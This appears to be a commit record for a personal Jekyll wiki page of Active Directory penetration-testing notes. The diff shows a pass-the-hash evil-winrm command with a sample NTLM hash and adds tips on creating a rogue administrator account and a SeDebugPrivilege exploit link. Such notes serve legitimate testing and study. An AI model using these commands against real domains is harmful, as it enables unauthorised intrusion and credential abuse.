

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 3472 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -140,7 +140,10 @@ net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts n
 **[Pass The Hash](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-pass-the-hash/#references)**
 ```
 evil-winrm -u James -H 8af1903d3c80d3552a84b6ba296db2ea -i 192.168.110.53 (obtain through mimikatz dump)
+  - Sometimes you can compromise the WinRM, and then create a new administrator account to psexec into to access domain.
 ```
+
+**[SeDebugPrivilege Add New Administrative User](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)**
 
 ## Credential Dumping
 **[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)**
````
